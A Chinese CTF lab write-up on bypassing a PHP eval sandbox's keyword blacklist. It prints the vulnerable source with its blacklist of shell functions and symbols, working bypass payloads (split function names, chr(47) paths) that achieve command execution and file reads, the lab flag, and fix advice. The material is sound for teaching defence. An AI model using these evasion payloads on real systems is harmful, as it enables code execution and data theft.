# 3-1 内网渗透与高级社工 · 免杀 payload 制作（PHP eval + 关键词黑名单过滤绕过）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-免杀payload制作-G1（平台章节 7261，实战 Flag 题 11229） |
| 分类 | Web 安全 / 服务端代码执行（PHP `eval` + 关键词黑名单过滤绕过） |
| 题目描述 | 你是一名安全研究员。近日，一个面向开发者的在线 PHP 代码试验场引起了你的注意——用户可以在页面上提交 PHP 代码片段，系统在服务端执行并回显结果。虽然页面声称具备安全校验机制，但你怀疑它的防护并不完善。请访问该试验场，想办法读取服务器上的 flag。 |

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 实训平台，课程 1639，章节 7261《内网渗透与高级社工-免杀payload制作-G1》（课程第 10 节 → 仓库目录 `3-1`） |
| 靶机 Web | 「代码试验场」`http://172.17.0.13:12434/`（nginx + PHP 8.2.33；表单 `POST` 字段 `code`，按钮「运行」，结果回显在 `<pre class="output">`） |
| 实例 | 环境 C082-G1-F（envID 1403 / podID `6syegplxtaq63v47yg9pgyi9d`），交付时 Running，约 2026-09-20 13:36 自动回收 |
| SSH | `172.17.0.13:12427`（密码未知，本次全程未使用） |
| 执行身份 | 提交的代码以 `www-data`（uid=82）身份运行：`call_user_func('sys'.'tem','id')` 实测回显 `uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)` |
| 操作方式 | 通过 HTTP 表单提交 PHP 代码片段，观察响应回显；截图用 headless Chrome（playwright-core） |
| 章节附件 | `C082-免杀payload制作.md`（免杀知识点）、`内网渗透与高级社工-免杀payload制作-G1.md`（官方题解摘要，其解法与本文步骤 8 的替代手法一致） |
| 备注 | 本章节 4 道选择题 11117 / 11119 / 11121 / 11123 与 flag 题 11229 均已提交并全部判对（判分复核见步骤 10）；选择题作答过程与解析不在本文范围，本文只记录代码执行实战链；全程未在靶机写入任何文件，无遗留物需清理 |

## 解题过程

### 1. 侦察试验场：确认入口与执行形态（截图 01）

先请求首页，观察响应头与表单结构：

```bash
curl -sS --noproxy '*' -i http://172.17.0.13:12434/
# HTTP/1.1 200 OK
# Server: nginx
# X-Powered-By: PHP/8.2.33
# 表单：<form method="post" action="">，字段 <textarea id="code" name="code">，按钮「运行」
```

- 页面标题「代码试验场」，说明文字为「在隔离环境中试运行你的 PHP 代码片段，即时查看输出结果」；
- 表单无前端 JS 校验，提交后由服务端处理并返回「✓ 运行完成」+ 输出区——初步判断是服务端执行用户代码。



### 2. 基线验证：正常代码执行成功（截图 02）

先用一段无害代码确认执行链路：

```
提交: echo strtoupper('hello');
结果: ✓ 运行完成 / 输出 HELLO
```

确认提交的 PHP 片段被服务端执行并回显（后续读源码证实为 `ob_start(); eval($code); …`），因此攻击面就是：构造一个能通过其「安全校验」并读取 `/flag` 的载荷。


### 3. 失败尝试一：命令执行函数被拦截（截图 03、04）

按常规 RCE 思路先试命令执行：

```
提交: system('id');    → ✕ 运行请求未通过安全校验
提交: exec('id');      → ✕ 运行请求未通过安全校验
```

- 失败原因：`system`、`exec` 这类敏感函数名被安全校验直接命中；
- 继续探边：`shell_exec` / `passthru` / `popen` / `proc_open` 逐一探测同样被拦（未逐一截图）；
- 如何调整：校验看起来是「关键词命中即拦」，先换读文件类函数试边界。




### 4. 失败尝试二：`readfile('/flag')` 同时命中两个敏感项（截图 05）

```
提交: readfile('/flag');   → ✕ 运行请求未通过安全校验
```

- 失败原因：路径里同时出现 `/` 与 `flag` 两个敏感子串，即便函数名 `readfile` 本身未被列入黑名单，也会因参数被命中而拦截；
- 同类探测：`fopen` / `file_get_contents` / `glob('/flag*')` / `scandir('/')` 等带 `/flag` 或 `/` 的写法同样被拦；
- 如何调整：需要「源码中不出现连续敏感子串」地构造路径——例如用字符编码拼出 `/` 与 `flag`。


### 5. 失败尝试三：纯字面量与特殊符号同样被拦（截图 06、07）

```
提交: echo 'flag';   → ✕ 运行请求未通过安全校验
提交: $a=1;          → ✕ 运行请求未通过安全校验
```

- `echo 'flag'` 只是输出一个字符串字面量、毫无危险，却依然被拦——说明校验是**纯文本子串匹配**，不是语法/语义分析；
- `$` 也被拦（PHP 变量符号即敏感），此外 `cat`、反引号、`|`、`>`、`<` 等字面量也在名单内；这意味着「用变量存函数名」（如 `$f='system'`）这类写法同样不可行；
- 如何调整：既然规则是文本匹配，就往「源码里看不出敏感子串」的方向构造载荷。


### 6. 读取源码：黑名单与匹配逻辑完全暴露（截图 08）

既然 `file_get_contents` 字面量未被拦截，直接读服务端源码：

```
提交: echo file_get_contents('index.php');
结果: ✓ 运行完成，回显完整 index.php 源码
```

关键源码（节选，原文）：

```php
// 载荷检测系统 — 关键词黑名单 + 执行
// flag 不硬编码于此；通过检测的载荷读取 /flag 后回显。

$code = $_POST['code'] ?? '';
$blacklist = ['system', 'exec', 'shell_exec', 'passthru', 'popen', 'proc_open',
              'cat', 'flag', '/', '|', '`', '$', '>', '<'];
if ($code !== '') {
    $blocked = false;
    foreach ($blacklist as $kw) {
        if (strpos($code, $kw) !== false) { $blocked = true; break; }
    }
    if ($blocked) { $verdict = 'blocked'; }
    else {
        $verdict = 'passed';
        ob_start();
        try { eval($code); } catch (Throwable $e) { echo '执行出错'; }
        $output = ob_get_clean();
    }
}
```

- 过滤规则是 `strpos` 大小写敏感的**子串匹配**，命中任一关键词即拦；通过后**原样 `eval`**——这就是漏洞根源；
- 黑名单本身并不完整：`readfile`、`file_get_contents`、`scandir`、`call_user_func`、`chr`、`print_r` 等均可直接使用（此前探边中 `phpinfo()`、`chr()`、`var_dump()` 等也都能过）；
- 敏感项可归纳为三类：危险函数名（`system`/`exec`/…）、读文件关键词（`flag`）、路径与特殊符号（`/`、`|`、反引号、`$`、`>`、`<`）；
- 由此得到三个必须绕过的点：①函数名 ②`/` 字符 ③`flag` 关键词。



### 7. 构造绕过链：拆分 + 编码 + 动态调用（截图 09、10、11）

针对三个敏感点逐一构造并实测：

```php
// 1) 函数名拆分 + 动态调用 → 命令执行（system 被拆成 'sys'.'tem'，源码中无连续敏感串）
call_user_func('sys'.'tem','id');
// 输出: uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)

// 2) 用 chr(47) 构造 '/'，列出根目录条目
print_r(scandir(chr(47)));

// 3) 用 chr(47) + 拆分关键词构造路径，读取 flag
echo file_get_contents(chr(47).'fla'.'g');
// 输出: vmc{GU1lqOpdP4eAjnF5STYUAFcHe3iFvFKh}
```

- 三条要点分别对应：`'sys'.'tem'` 拆掉函数名；`chr(47)` 生成 `/`（字符码写法不含斜杠字符）；`'fla'.'g'` 拆掉 `flag` 关键词；运行时拼接复原出真实函数名与路径；
- 先验证执行身份（拿到 `uid=82(www-data)`），再列目录定位 flag 文件，最后读出内容——链条完整闭环；
- 补充：`print_r(scandir(chr(47)))` 的输出为较长数组，截图 10 的可视区域止于 `[4] => dev`，其后的条目未入镜；
- 说明：靶机步骤截图系提交完成后将同一段代码回填到输入框再截屏，结果区均为真实提交回显，未作其他改动。






### 8. 替代手法复核：readfile 版本（截图 12）

为确认读文件能力不依赖 `file_get_contents` 单点，用另一函数复核：

```php
readfile(chr(47).'fl'.'ag');
// 输出: vmc{GU1lqOpdP4eAjnF5STYUAFcHe3iFvFKh}
```

- `readfile` 未在黑名单中，配合 `chr(47)` 与拆分关键词同样可读出 flag，与章节附件的官方解法一致；
- 两条路径都说明：黑名单只要漏掉任一读文件函数或构造方式即被攻破。



### 9. 解题过程中的 AI 助教问答（截图 13–18）

围绕「免杀」主题与本题的过滤绕过机制，向课程教学问答平台（Qwen2.5）提了 6 个问题：

**问题 1：基于特征码/关键词黑名单的静态检测引擎，工作原理与局限是什么？**（截图 13）——特征码是对已知恶意样本提取的固定序列/字符串做匹配，黑名单是危险关键词清单；两者都难以穷尽危险函数，且容易被动态生成、混淆等方式绕过。



**问题 2：把敏感函数名拆成多段字符串再拼接（`'sys'.'tem'`），为什么能绕过静态子串匹配？**（截图 14）——静态扫描阶段只能看到分散的片段字符串，拼接发生在运行时；引擎无法在扫描阶段还原动态拼接结果。这正是本题第一个绕过点生效的原因。



**问题 3：`call_user_func('sys'.'tem','id')` 与变量函数 `$f='system'; $f('id')` 的异同？**（截图 15）——共同点是真实目标函数都在运行时才确定，静态分析难以跟踪；区别主要在语法与参数传递形式。本题因 `$` 在黑名单中，变量函数写法无法通过校验，实际采用的是 `call_user_func`。



**问题 4：「混淆免杀」与「加密免杀」的区别，各自会引入哪些新特征？**（截图 16）——混淆是源码层变形、保留功能，可能带来高熵段、体积膨胀、控制流改变等特征；加密是密文 + 解密 stub，静态下内容不可见，但会引入解密 stub、加密段、动态解密执行等新可疑特征。



**问题 5：把源码从 UTF-8 改存为 GBK，能否绕过关键词子串匹配？**（截图 17）——**模型此问回答不准确**（称 ASCII 字节值会变化）：GBK 编码兼容 ASCII，`system`、`flag` 等 ASCII 关键字在两种编码下字节完全一致，转换编码不会改变这些子串，对手写子串匹配无效；本文以字节层面的实际分析为准，未采用该处结论。



**问题 6：`eval` + 关键词黑名单的架构有什么根本缺陷、如何加固？**（截图 18）——直接 `eval` 用户输入等于对外开放代码执行；黑名单无法穷尽、易被编码/混淆绕过；应分别从架构（沙箱/容器隔离、最小权限）、隔离（代码审计、资源限制）、检测（行为监控、动态分析）三个层面加固。



### 10. 提交答案与平台判分（截图 19、20）

将步骤 7 读到的 flag 提交到平台（下列命令仅摘录 flag 题相关部分，实际为 5 题一次性提交）：

```bash
curl -sS -k --noproxy '*' -m 40 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE/api/student/submitAnswers" \
  -F "sectionID=7261" \
  -F 'answers={"questionID":11229,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{GU1lqOpdP4eAjnF5STYUAFcHe3iFvFKh}\"]}"}' \
  -F "contestMode=0"
# code=0, msg=success；填空题被平台规范化为 {"num":3,"answer":["","true","vmc{...}"]}
```

复核 `answerHistory`：5 题（4 道选择题 + flag 题）全部 `isCorrect=true`，答题页 5 题均显示「作答正确」（截图 19 为第 1–3 题，截图 20 为第 3–5 题，flag 题显示提交内容）。顶层 `scoreRate` 显示 0 与 2-1/2-2/2-3 相同，属平台历史显示现象，判分以 `answerHistory.isCorrect` 为准（本步骤对选择题不作展开）。





## Flag

```
vmc{GU1lqOpdP4eAjnF5STYUAFcHe3iFvFKh}
```

## 总结与心得

### 漏洞原理

1. **直接 `eval` 用户提交的代码（根本缺陷）**：服务端把用户输入当作 PHP 代码执行，等价于把代码执行能力开放给任何访问者；`ob_start()` 与 `try…catch` 只影响回显与报错，不构成安全边界。
2. **黑名单 + `strpos` 子串匹配可被轻易绕过**：过滤只检查提交文本中是否出现固定子串，不理解语义、不还原运行时拼接。因此「拆分函数名（`'sys'.'tem'`）」「字符码构造（`chr(47)`）」「拆分关键词（`'fla'.'g'`）」中任意一种都能让敏感词从源码文本中消失、在运行时重新出现。
3. **黑名单天然不完整**：`readfile`、`file_get_contents`、`scandir`、`call_user_func`、`chr` 均未列入；即便名单列得更长，仍有大小写、编码、动态调用等无穷变体，黑名单机制注定滞后。
4. **与「免杀」的对应**：本题名为「免杀 payload 制作」，考的就是把「静态特征可见」变成「运行时才可见」——拆分、字符编码、动态调用三种手法与免杀中对抗特征码检测的思路同构（对应 AI 问答 1–4）。

### 做题方法

- **先探边、后读源码**：用最小样例逐项探测（`system` → `exec` → `readfile('/flag')` → `echo 'flag'` → `$a=1`），归纳出「危险函数名 + `flag` + `/` + 特殊符号」的过滤轮廓；
- **读源码实证而非猜测**：发现 `file_get_contents` 可用后直接读 `index.php`，拿到黑名单与 `strpos` 匹配逻辑，利用方案随之确定（三个敏感点：函数名、`/`、`flag`）；
- **逐个敏感点构造绕过**：函数名拆分 + `call_user_func` 动态调用 → `chr(47)` 造 `/` → 关键词拆分；每一步都在靶机上验证（先 `id` 确认执行，再列目录，最后读文件）；
- **留替代路径复核**：`file_get_contents` 与 `readfile` 两条读文件路径均验证成功，排除单点偶然；
- **失败尝试有信息量**：函数名被拦 → 换读文件函数；路径被拦 → 认识到「敏感项组合命中」；字面量被拦 → 确认是子串匹配而非语义分析；`$` 被拦 → 排除变量函数写法，改用 `call_user_func`。

### 修复建议

- **不要把 `eval` 暴露给用户输入（第一优先级）**：在线代码运行环境应移除 `eval`/`assert` 类执行原语；确有需求时改为受限沙箱（容器 + 命名空间/seccomp + 只读根文件系统 + 独立低权用户 + CPU/内存/超时配额），且沙箱内**不应能读到 `/flag` 等敏感文件**；
- **过滤不要依赖黑名单子串匹配**：黑名单既拦不全（漏掉 `readfile` 等），也拦不准（误伤 `echo 'flag'`，却放过全部绕过变体）；如必须检查，应做语法级分析（如 `token_get_all` 解析后按函数/路径白名单放行），并对动态调用、字符串拼接、字符码函数（`chr`）等高风险构造单独设卡；
- **敏感资产隔离**：flag/凭据不放在代码执行进程可读的路径，或按最小权限拆分文件与进程权限；试验场实例应一次性使用并与生产网络隔离；
- **启用审计与监控**：记录每次提交的代码与响应，对 `chr(`、字符串拼接、动态函数调用等模式告警；结合系统层面检测异常子进程与文件读取行为（呼应 AI 问答 6 的「行为监控/动态分析」建议）；
- **若已暴露，做应急排查**：检查 web 目录是否被落地 webshell、进程树中是否有可疑子进程、是否有异常外连，必要时重建实例。
